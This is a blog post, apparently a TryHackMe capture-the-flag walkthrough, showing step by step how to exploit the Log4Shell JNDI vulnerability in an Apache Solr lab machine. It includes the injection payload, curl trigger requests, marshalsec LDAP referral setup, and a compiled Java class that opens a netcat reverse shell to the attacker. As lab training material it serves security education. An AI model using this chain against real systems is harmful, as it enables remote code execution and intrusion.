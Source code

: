 ```yaml
---
layout: post
title:  "LOG4J-Solr-THM-Walkthrough"
date:   2022-01-04 17:03:35 +0530
categories: jekyll update
---
```

{% highlight ruby %}Phase 1: Reconnaissance{% endhighlight %}

We explore the web interface at http://machine_ip[:]8983; we explore and look around for the log files, to see which path or URL endpoint triggers the logging. 

We find that {% highlight ruby %}“solr/admin/cores/”{% endhighlight %} is where a user can control the data entry point. 
 
You may already know the general payload to abuse this log4j vulnerability.

The format of the usual syntax that takes advantage of this looks like so: 
                ${jndi: ldap://ATTACKERCONTROLLEDHOST} 

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For now, know that the target will in fact make a connection to an external location. This is indicated by the 
ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection. 
 
We already discovered that we could supply parameter to the /solr/admin/cores URL to insert our JNDI Syntax. 

Other locations you might supply this JNDI syntax: 
•	Input boxes, user and password login forms, data entry points within applications 
•	HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers 
•	Any place for user-supplied data 

{% highlight ruby %}Phase 2: Testing{% endhighlight %} 
To prepare your environment for testing the vulnerability and receiving a connection 

1.	We view our own IP address information: 
a.	“ip addr show” OR “ip -br -c a” 
  
2.	We prepare a netcat listener on port 9999  
a.	“nc -nlvp 9999” 
  
3.	Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility. 

{% highlight ruby %}“curl ‘http://machine_ip[:]8983/solr/admin/cores?foo$\{jndi:ldap://Your.IP.Address:9999\}’{% endhighlight %}  
  
Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes, so bash (your command-line shell) does not interpret it as a variable. 
Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments. 

4.	Verify you have received a connection by seeing the following message in your netcat listener: 
a.	“Connection received from MACHINE_IP” 
  
{% highlight ruby %}Phase 3: Preparation and Payload Creation{% endhighlight %} 
At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your netcat listener. However, it made an LDAP request... so all your netcat listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP Handler. We will utilize an open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so: 
{% highlight ruby %}
1.	${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server 
2.	LDAP Referral Server springboards the request to a secondary http://attackerserver/resource 
3.	The victim retrieves and executes the code present in http://attackerserver/resource 
{% endhighlight %} 

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000): 
{% highlight ruby %}
	• 	python3 -m http.server 8000 
{% endhighlight %}  

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec 

Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine) 

You can find a mirror of different Java versions to run on Linux at this location. http://mirrors.rootpei.com/jdk/ and we install Java 8 locally. 
Now we install Marshalsec utility from github. 
{% highlight ruby %}
1. Clone the repository in any file system location of your choice (I would suggest /tmp or /opt): 
a. git clone https://github.com/mbechler/marshalsec 

2.	Download and change directories into this new folder (cd marshalsec) We must build marshalsec with the Java builder maven. If you do not yet have maven on your system, you can install it through your package manager: 'sudo apt install maven'

3.	Now, we install the maven packages:  'mvn clean package -DskipTests' 

4.	With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server (which we will prepare in just a moment). The syntax to start the LDAP server is as follows: 
a. java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit” 
{% endhighlight %}

Adjust the IP address for your attacking machine as needed. Note that we supplied the HTTP port listening on 8000. 

You will see an output on your window similar to below: 
{% highlight ruby %}"Listening on 0.0.0.0:1389"{% endhighlight %}
 
Now that our LDAP server is ready and waiting, we can open a second terminal window to prepare our final payload and secondary HTTP server. 

Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. 

Create and move into a new directory where you might host this payload. First, create your payload in a text editor of your choice (mousepad, nano, vim, Sublime Text, VS Code etc), with the specific name Exploit.java: 

{% highlight ruby %}
public class Exploit {static {try { java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999"); } catch (Exception e) {e.printStackTrace(); 
}}} 
{% endhighlight %}

Compile your payload with {% highlight ruby %}javac Exploit.java -source 8 -target 8{% endhighlight %} and verify it succeeded by running the {% highlight ruby %}'ls'{% endhighlight %} command and finding a newly created {% highlight ruby %}Exploit.class{% endhighlight %} file 
  
With your payload created and compiled, you can now host it by spinning up a temporary HTTP server.  {% highlight ruby %}Python3 -m http.server 8000{% endhighlight %}
  
{% highlight ruby %}Phase 4: Exploitation{% endhighlight %}

Your payload is created and compiled, it is hosted with an HTTP server in one terminal, your LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch your reverse shell in yet another new terminal window: nc -nlvp 9999 
  
Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit: 
{% highlight ruby %}
curl 
'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:138 9/Exploit\}' 
{% endhighlight %}

You have now received initial access and command-and-control on an Apache Solr instance. This is just one example of many, many vulnerable applications affected by this log4j vulnerability.  
  
At this point, a threat actor can realistically do whatever they would like with the victim -- whether it be privilege escalation, exfiltration, install persistence, perform lateral movement or any other postexploitation -- potentially dropping cryptocurrency miners, remote access trojans, beacons and implants or even deploying ransomware.  
All it took was a single string of text, and a little bit of set up with freely available tooling. 

This was precisely why the Internet has been on fire during the weekend of December 9th, 2021.  

